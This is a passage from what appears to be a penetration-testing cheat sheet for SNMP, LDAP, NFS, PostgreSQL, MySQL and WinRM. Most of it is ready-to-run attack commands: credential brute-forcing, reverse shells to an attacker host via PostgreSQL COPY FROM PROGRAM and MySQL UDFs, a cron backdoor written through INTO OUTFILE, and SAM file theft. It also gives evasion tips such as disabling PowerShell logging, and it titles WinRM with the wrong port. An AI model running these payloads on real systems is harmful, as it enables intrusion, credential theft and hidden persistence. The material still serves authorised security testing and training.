     snmp-check -p 161 -c public <target-ip>
Provides a human-readable summary of SNMP results.

6. Braa (High-speed SNMP scanner)
bash

       braa public@<target-ip>:.1.3.6.*
Mass SNMP scanning tool, lightweight, does not rely on Net-SNMP libs.

🧨 Exploitation & Brute Force
7. Metasploit - snmp_enum
bash

    use auxiliary/scanner/snmp/snmp_enum
    set RHOSTS <target-ip>
    set community public
    run
8. Hydra
bash

       hydra -P pass.txt <target-ip> snmp
-P: Password list (community strings)

9. Metasploit - snmp_login
bash

       use auxiliary/scanner/snmp/snmp_login
       set RHOSTS <target-ip>
       set PASS_FILE pass.txt
       run
10. Medusa
bash

        medusa -h <target-ip> -P pass.txt -M snmp
11. Patator
bash

        patator SNMP_login host=<target-ip> community=FILE0 0=pass.txt
12. Nmap NSE Script
bash

        nmap -sU -p 161 <target-ip> --script snmp-brute --script-args snmp-brute.communitiesdb=pass.txt
13. Onesixtyone
bash

        onesixtyone -c pass.txt <target-ip>
Simple and efficient brute-force tool.

🧾 Useful Resources
Common SNMP Community Strings Wordlist:
fuzzdb SNMP wordlist[https://raw.githubusercontent.com/fuzzdb-project/fuzzdb/master/wordlists-misc/wordlist-common-snmp-community-strings.txt]

Extended MIB Enumeration:
Explore additional SNMP fields via extended MIBs
NET-SNMP-EXTEND-MIB[https://circitor.fr/]

🛠️ Tips for Red Teamers & Pentesters
SNMP Read-Only (RO) can leak:

Usernames and services

System details

Running processes

Network interfaces

Potential credentials (sometimes encoded or plaintext)

SNMP Read-Write (RW) access is highly critical:

Can change configurations

Reboot devices

Inject malicious configuration (e.g., redirect logs, change SNMP traps)

Use snmp-check and braa for fast reconnaissance, then deep dive with snmpwalk or Metasploit.

SNMP often reveals network topology and firewall rules via MIBs.
https://hacktricks.boitatech.com.br/pentesting/pentesting-snmp/snmp-rce

</details>

<details>
<summary>10.📚 LDAP (Lightweight Directory Access Protocol)389,636</summary>
 <br>
LDAP is a protocol used to access and maintain directory information. It is commonly used for managing user information and authentication.

**Enumerating LDAP:**

```bash

ldapsearch -x -H ldap://<IP> -b "dc=example,dc=com"
ldapsearch -x -H ldap://<IP>:<port> # try on both ldap and ldaps, this is first command to run if you dont have any valid credentials.

ldapsearch -x -H ldap://<IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
#CN name describes the info we're collecting
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Computers,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Users,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Enterprise Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Administrators,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Remote Desktop Users,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"

#windapsearch.py
#for computers
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --computers

#for groups
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --groups

#for users
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --da

#for privileged users
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --privileged-users

```

You can also enumerate users and gather information from LDAP directories.

**Using Metasploit for LDAP enumeration:**

```bash

msfconsole
use auxiliary/gather/ldap_query
set RHOSTS <IP>
set BASE "dc=example,dc=com"
run

```

</details>
<details>
<summary>11.📦 NFS (Network File System) port 2049</summary>
 <br>
NFS allows a system to share its files with other systems over a network. It enables the mounting of remote file systems and interaction with them as if they were local.

**Example Nmap command to scan for NFS services:**

```bash

nmap -p2049 -sV 192.168.188.131

```

If NFS is exposed publicly, it can be mounted to the local machine and files can be accessed.

**Mounting NFS share:**

```bash

sudo mount 192.168.188.131:/ /home/kali/Downloads/nfs -nolock

```

This allows you to access shared files from the remote NFS server.
![image](https://github.com/user-attachments/assets/34ad4003-778a-4011-b5ee-1c63e17adf4a)

**Troubleshooting NFS Mount Permission Issues:**

If you encounter **Permission Denied**, ensure that you have the correct NFS version and permissions configured.
https://blog.christophetd.fr/write-up-vulnix/
**To use NFSv3 (if needed):**

```bash

sudo mount -t nfs -o vers=3 192.168.188.137:/home/vulnix /home/kali/Downloads/nfs/home/vulnix -nolock

```
Let’s take a closer look at the permissions. 
```bash
ls -ld vulnix
```
If only Particuler user or group have access to the Path:
create a user group:
```jsx
sudo groupadd --gid 2008 vulnix_group
sudo useradd --uid 2008 --groups vulnix_group vulnix
sudo -u vulnix ls -l vulnix
```

![image](https://github.com/user-attachments/assets/c5978efc-c909-48b1-8165-5705d484ef0a)


DEBUG

```jsx
id vulnix
```

Ensure it outputs:

```jsx
uid=2008(vulnix) gid=2008(vulnix_group) groups=2008(vulnix_group)
```

If the UID or GID is incorrect, you must delete and recreate the user with:

```jsx
sudo userdel vulnix
sudo groupdel vulnix_group
sudo groupadd --gid 2008 vulnix_group
sudo useradd --uid 2008 --gid 2008 --groups vulnix_group vulnix
```

Now, try accessing the directory as `vulnix_user`:
![image](https://github.com/user-attachments/assets/90546368-1291-4e7a-b7c9-52a148eef779)

</details>


<details>
<summary>12. PostgreSQL 5432</summary>
 <br>
 PostgreSQL, also known as Postgres, is an advanced open-source relational database used across major platforms (Linux, Windows, Mac). It ships by default with macOS and is often used in enterprise backends.

PostgreSQL includes powerful functionality such as user-defined functions, server-side programming, and even the ability to execute system commands — which, when misconfigured, becomes a privilege escalation or RCE vector.

🎯 Attack Goals
Gain remote shell access

Escalate privileges (via SYSTEM/root or postgres user)

Lateral movement within internal networks

🧪 Step-by-Step Exploitation
🔐 Step 1: Brute-force PostgreSQL Credentials (if creds not known)
bash

    hydra -L /usr/share/wordlists/metasploit/postgres_default_user.txt \ -P /usr/share/wordlists/metasploit/postgres_default_pass.txt \ <target-ip> postgres
👉 This attempts default user:pass combinations like postgres:postgres.

📥 Step 2: Log in with psql or Metasploit module
bash

    psql -h <target-ip> -U postgres -W
or via Metasploit:

bash

    use auxiliary/scanner/postgres/postgres_login
☠️ Step 3: Confirm Privileges (Key Requirement!)
This RCE works only if:

The user is superuser or

The user has pg_execute_server_program role

Check roles:

sql

    \du
Look for:

pgsql

    postgres | Superuser, Create role, Create DB, Replication, Bypass RLS
or:

sql

    SELECT usesuper, usename FROM pg_user;
💥 Step 4: Achieve Code Execution via COPY FROM PROGRAM
This PostgreSQL feature allows importing data from an OS command.

Example: Windows Reverse Shell (PowerShell)
sql

    CREATE TABLE cmd_out(data text);
    COPY cmd_out FROM PROGRAM 'powershell -EncodedCommand <Base64Payload>';
👉 Base64Payload is your reverse shell (msfvenom -p windows/x64/powershell_reverse_tcp)

Linux Example:
sql

    COPY cmd_out FROM PROGRAM '/bin/bash -c "bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1"';
🛠 Tools to generate shell payloads:

bash

    msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw
🛠️ Alternative Methods of Exploitation
1. User-Defined Functions (UDF) via Shared Object Libraries
Upload a malicious .so (Linux) or .dll (Windows) and load it using:

sql

    CREATE FUNCTION sys_exec(text) RETURNS int
    AS '/tmp/malicious.so', 'exec'
    LANGUAGE C STRICT;
    SELECT sys_exec('nc -e /bin/bash <attacker-ip> <port>');
Requires superuser privileges and shared_preload_libraries.

2. Writable Filesystem Abuse
Check writable paths:

sql

    COPY cmd_out TO '/tmp/test.txt';
If successful, you can:

Write malicious scripts
Drop cron jobs (Linux)
Schedule tasks (Windows)

3. SQL Injection in Web Applications
If PostgreSQL is the backend and the app is vulnerable to SQLi:

sql

    '; COPY cmd_out FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"' --
Useful if you don’t have creds but have SQLi in a web app.

🧼 Cleanup (Optional)
sql

    DROP TABLE cmd_out;
🔒 Detection & Mitigation
Defense Area	Recommendation
🔐 Privilege Restriction	Avoid granting pg_execute_server_program or superuser to non-admin users
🔍 Logging	Enable query logging: log_statement = 'all'
🛡️ Disable COPY PROGRAM	Use PostgreSQL --disable-copy-program or AppArmor/SELinux
📦 Application Security	Sanitize SQL inputs to prevent injection
🔑 Credential Hygiene	Avoid default credentials and enforce strong auth
🔁 Regular Audits	Monitor user roles (\du) and extensions (\dx)

📌 Summary
Stage	Command
Brute Force	hydra -L ... -P ... <ip> postgres
Check Privs	\du or SELECT usesuper FROM pg_user;
Reverse Shell	COPY ... FROM PROGRAM 'bash ...'
UDF Execution	CREATE FUNCTION ... with .so/.dll
SQLi RCE	Inject COPY command via vulnerable web app

📎 Reference
https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5
Greenwolf Security – PostgreSQL RCE via COPY

Metasploit Modules

exploit/multi/postgres/postgres_copy_from_program_cmd_exec

exploit/windows/postgres/postgres_payload
</details>
<details>
<summary>13. MYSQL Port 3306</summary>
 <br>
🔎 Step 1: Enumeration
Start with identifying whether port 3306 (default MySQL port) is open:

bash

    nmap -p3306 -sV -sC <target-ip>
Add aggressive scanning options for version detection and default script scans:

bash

    nmap -p3306 --script mysql* -sV <target-ip>
This will also try:

Default creds

Enumerate MySQL users

Check for anonymous access

🔑 Step 2: Brute Forcing MySQL Credentials
bash

    hydra -L users.txt -P pass.txt <ip> mysql
Alternatively, you can use medusa:

bash

    medusa -h <ip> -u root -P pass.txt -M mysql
Or use ncrack (especially good for fast brute-forcing):

bash

    ncrack -p 3306 -U users.txt -P pass.txt <ip>
🧠 Step 3: Manual Login (Once Valid Credentials Are Found)
bash

    mysql -h <ip> -u <user> -p
Once logged in, you can:

List databases: show databases;

Use a DB: use mysql;

Check users: select user, host, authentication_string from mysql.user;

⚡ Step 4: Exploitation via Metasploit
A. Run SQL Queries Directly
bash

    msfconsole -q
    use auxiliary/admin/mysql/mysql_sql
    set rhosts <target-ip>
    set username <user>
    set password <pass>
    set sql show databases;
    run
B. Dump Password Hashes
bash

    use auxiliary/scanner/mysql/mysql_hashdump
    set rhosts <target-ip>
    set username <user>
    set password <pass>
    run
C. Run Commands via UDF (User Defined Function) Injection (for RCE)
bash

    use exploit/windows/mysql/mysql_udf_payload
    set rhosts <target-ip>
    set username root
    set password toor
    set payload windows/meterpreter/reverse_tcp
    set lhost <attacker-ip>
    set lport 4444
    run
✅ This exploit creates a custom function using a shared library (.dll or .so) and then calls it through SQL to gain RCE.

🧪 Step 5: Manual RCE via User-Defined Functions (UDF)
If file_priv is granted, you can:

Upload a malicious .dll or .so UDF file.

Register it with SQL:

sql

    CREATE FUNCTION do_system RETURNS integer SONAME 'lib_mysqludf_sys.so';
    SELECT do_system('nc <attacker-ip> 4444 -e /bin/bash');
On Windows:

sql

    SELECT do_system('powershell -c <reverse_shell_payload>');
🪵 Step 6: Post Exploitation
Dump user tables:

sql

    select user, password from mysql.user;
Look for saved credentials or tokens in application databases

Exfiltrate configuration files, secrets, keys

🛡️ Detection & Mitigation
Disable root login from remote IPs (bind-address=127.0.0.1 in my.cnf)

Enforce strong passwords and remove default credentials

Regularly audit MySQL users and their privileges

Monitor for signs of brute-force (slow query logs, login failures)

Consider enabling TLS encryption for connections

Use MySQL roles to minimize privilege exposure

🔁 Alternatives Tools for MySQL Pentesting
Tool	Purpose
sqlmap	Exploit SQL injection vulnerabilities
mysql_enum (NSE Script)	MySQL database enumeration
DBPwAudit	Fast credential bruteforcer
mariadb-client	Compatible client for login and testing
Metasploit	Multiple auxiliary and exploit modules

🧷 Additional Notes
MySQL with misconfigured permissions (e.g., file_priv, secure_file_priv) allows file upload or command execution

Some versions allow writing to crontab via SELECT ... INTO OUTFILE if not locked down

sql

    SELECT '*/1 * * * * root nc <ip> 4444 -e /bin/bash' INTO OUTFILE '/etc/cron.d/mysqlbackdoor';

</details>

<details>
<summary>14. WinRM 3306</summary>
 <br>
📌 What is WinRM?
Windows Remote Management (WinRM) is Microsoft’s implementation of the WS-Management protocol based on SOAP. It allows remote management of Windows systems and is enabled by default in some environments.

Port 5985 → WinRM over HTTP (unencrypted unless message-level encryption is used)

Port 5986 → WinRM over HTTPS (encrypted)

🔎 Initial Enumeration
Check if WinRM is exposed:

bash

    nmap -p 5985,5986 -sV -Pn <target-ip> --script http-winrm*
Use nmap with WinRM-specific NSE scripts:

bash

    nmap -p5985 --script=winrm-auth <target-ip>
Or check manually using curl:

bash

    curl -s -X POST http://<ip>:5985/wsman
If the response contains wsman, the service is alive.

🧪 Metasploit Enumeration
Check for Supported Auth Methods:
bash

    msfconsole
    use auxiliary/scanner/winrm/winrm_auth_methods
    set RHOSTS <target-ip>
    run
🔐 Brute-Force WinRM Credentials
1. Metasploit Module
bash

       use auxiliary/scanner/winrm/winrm_login
       set RHOSTS <target-ip>
       set user_file users.txt
       set pass_file passwords.txt
       set DOMAIN WORKSTATION
       run
2. Password Spray with nxc (lightweight & fast):
bash

       nxc winrm <ip> -u users.txt -p passwords.txt
🧠 Remote Shell with Valid Credentials
1. evil-winrm (Preferred Tool)
bash

       evil-winrm -i <target-ip> -u <user> -p <password>
Supports:

Upload/download
Powershell scripting
Proxy support
Kerberos & pass-the-hash (see below)

2. Docker Evil-WinRM (for Linux users)
bash

       docker run -it --rm --name evil-winrm --entrypoint evil-winrm oscarakaelvis/evil-winrm -i <ip> -u <user> -p <password>
🧪 Alternative Shells
1. PowerShell Remoting (Linux to Windows)
Using PowerShell NTLM Docker:

bash

    docker run -it quickbreach/powershell-ntlm
    $creds = Get-Credential
    Enter-PSSession -ComputerName <ip> -Authentication Negotiate -Credential $creds
2. Ruby WinRM Shell Script
Download & configure this Ruby script:

bash

    wget https://raw.githubusercontent.com/Alamot/code-snippets/master/winrm/winrm_shell_with_upload.rb
    nano winrm_shell_with_upload.rb  # Set IP, creds
    ruby winrm_shell_with_upload.rb
3. Powershell Empire / Covenant
You can use tools like:

Empire

Covenant

PSSharp
To execute WinRM-based agents if lateral movement or persistent C2 is required.

🧯 Pass-the-Hash with Evil-WinRM
If you have an NTLM hash, use:

bash

    evil-winrm -i <target-ip> -u <user> -H <NTLM_hash>
Or use Impacket's wmiexec.py or psexec.py as alternatives.

🔁 Lateral Movement
If you compromise a user with WinRM access on other systems:

bash

    evil-winrm -i <target-2> -u compromised_user -p password
Or use built-in PS remoting:

powershell

    Invoke-Command -ComputerName target2 -ScriptBlock { whoami } -Credential (Get-Credential)
📤 Post Exploitation with Evil-WinRM
bash

    upload <local-file> C:\Users\Public\payload.exe
    download C:\Windows\System32\config\SAM
    scripts
Built-in modules:

BloodHound
PowerView
SharpHound
PowerUp

🕵️ Detection Evasion Tips
Avoid brute-force from same IP: use --proxy or TOR routing

Disable PowerShell logging where possible

Modify Evil-WinRM user-agent string if using HTTPS

Consider using Kerberos authentication to reduce logs (with --auth kerberos)

🛡️ Defensive Notes / Mitigations
Disable WinRM if not needed:

powershell

    Disable-PSRemoting -Force
Use HTTPS + Cert-based Auth if enabled

Enable logging (Microsoft-Windows-WinRM/Operational)

Use GPO to restrict which users can access via WinRM

Monitor for new evil-winrm.exe or PS remoting activity

Limit "Remote Management Users" group

🧰 Related Tools Summary
Tool	Use
evil-winrm	Remote PS shell
nxc	Fast password spray
crackmapexec	SMB/WinRM enumeration
PSRemoting	Native method
Impacket	Pass-the-hash over WinRM (via SMB/WMI/PSEXEC)
wmiexec.py	WMI exec using hashes
pywinrm	Python-based WinRM library
Metasploit	Brute-force, auth check

</details>

